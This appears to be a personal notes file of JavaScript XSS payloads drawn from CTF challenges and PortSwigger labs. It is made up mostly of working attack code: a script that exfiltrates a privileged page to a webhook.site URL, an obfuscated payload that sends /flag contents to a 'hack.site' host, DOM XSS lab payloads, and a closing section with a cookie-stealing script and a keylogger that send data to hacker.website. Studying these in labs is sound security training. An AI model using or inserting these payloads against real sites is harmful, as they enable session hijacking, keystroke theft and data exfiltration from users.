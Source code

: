 # JavaScript based Payloads

## Basic test payloads

```html
<img src=x onerror=alert(document.domain)>

<script>document.write(123)</script>

```

## Interesting Techniques 


### Technique 1 
>#### Fetch-free technique to obtain a privileged page's content


```html 
<form method="post" id="theForm" action="/flag" target='hacker'>
    <!-- Form body here -->
</form>
<script> 
    let w = window.open('','hacker'); 	
    // w can be accessed as long as same-origin policy is satisfied
    
    document.getElementById('theForm').submit();
    
    setTimeout(()=>{
        document.location= `https://webhook.site/645c63<something>5-a172-a9014e389741?c=${w.document.body.innerHTML}`
    },500);

</script>

```

### Technique 2 
>#### Using quotes and comments to swallow existing content and to achieve XSS


```js
// Server-side code for a To-Do list creation feature with limitations on both individual line size and the entire list size 

const parsed = list
    .trim()
    .split("\n")
    .map((x) => x.trim());
if (parsed.length > 20) {
    res.status(400).send("list must have at most 20 items");
    return;
}
if (parsed.some((x) => x.length > 12)) {
    res.status(400).send("list items must not exceed 12 characters");
    return;
}

// The created list can be accessed as a checkbox list in a HTML file 

```

```html
<!-- Original Payload -->

 <img src=''onerror='fetch("/flag").then(r=> r.text() ).then( t=> window.open("http:"+"//hack"+".site"+"/"+t))'>

 <!-- Modified Payload to satisfy the length requirements -->

<img src='
'onerror='/*
*/fetch("/*
*//flag")./*
*/then(r=>/*
*/r.text()/*
*/).then(/*
*/t=>/*
*/window/*
*/.open(/*
*/"http:"+/* 
*/"//hack"/*
*/+".site/*
*/"+"/"/*
*/+t))'>

<!-- The ' (quote) after the src attritube and the ' before onerror would engulf the in between junk html as an img src and would throw an error.-->

<!-- Anything within the quotes of onerror attritube would be considered as js code. So to omit the junk html associated with each line in the list, comments (/**/) are used. -->

```

### Techniques learnt on PortSwigger Labs

>#### DOM XSS in document.write sink using source location.search
>
> - *General Thought process for XSS (pretending it to be a black box test)* 
> - A "search" text box to search for blogs is present.
> - The text entered in the text box is returned back in the Server's response and gives a semblance of *reflected XSS*. But it isn't possible in reality as the characters such as `'` and `"` are represented using HTML entities.
> - So, must look for the `document.write` sink as the question suggests. 

Spotted the sink in the HTML code:

```html
<script>
    function trackSearch(query) {
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }
</script>
```
```bash
# First, the 'search' parameter from the query string in URL is extracted and stored in the variable 'query'.

# The variable 'query' is passed to the function 'trackSearch' which uses document.write() (the sink) to write a piece of HTML code to the page which includes the contents of the variable 'query' facilitating DOM based XSS
```

Test Payload :

`/?search=hello"world`

```html
<!-- O/p -->

<img src="/resources/images/tracker.gif?searchTerms=hello" world"="">

<!-- The payload worked! (despite the wierd addition of a SPACE character before the word 'world'; might be a browser thing, not sure) -->
```

XSS Payload : 

`/?search="><img+src%3dx+onerror%3dalert('XSS!')>`

```html
<!-- O/p -->

<img src="/resources/images/tracker.gif?searchTerms=">
<img src="x" onerror="alert('XSS!')">

<!-- The payload worked! (despite the wierd addition of "" (quotes) for the attributes' values of the second "img" tag which wasn't originally present in the payload; might be a browser thing, not sure) -->
```

---

>#### DOM XSS in jQuery anchor href attribute sink using location.search source

The Vulnerable Code :

`/feedback?returnPath=/`

```html
<div class="is-linkback">
    <a id="backLink" href="/">Back</a>
</div>
<script>
    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>                 
```

**Initial Payload** (Attempted to break out of the "" (quotes) of the anchor tag's href attribute to introduce a malicious img tag):

`/feedback?returnPath=/">Back</a><img+src%3dx+onerror%3dalert(document.cookie)>`

```html
<!-- Learnt that it is not possible to break out of the "" (quotes) of an anchor tag's href attribute in jQuery as the closing quote got replaced to its corresponding HTML entity.-->

<a id="backLink" href="/&quot;>Back</a><img src=x onerror=alert(document.cookie)>">Back</a>

```

**Final Payload** :

`/feedback?returnPath=javascript:alert(document.cookie)`

```html
<!-- The alert() is called upon a click on the <a> tag. -->

<a id="backLink" href="javascript:alert(document.cookie)">Back</a>
```

---

## Common XSS Payloads

```html
<!-- Session Stealing -->

<script>fetch('https[:]//hacker.website/steal?cookie=' + btoa(document.cookie));</script> 

<!-- Key Logger -->

<script>document.onkeypress = function(e) { fetch('https[:]//hacker.website/log?key=' + btoa(e.key) );}</script>
```

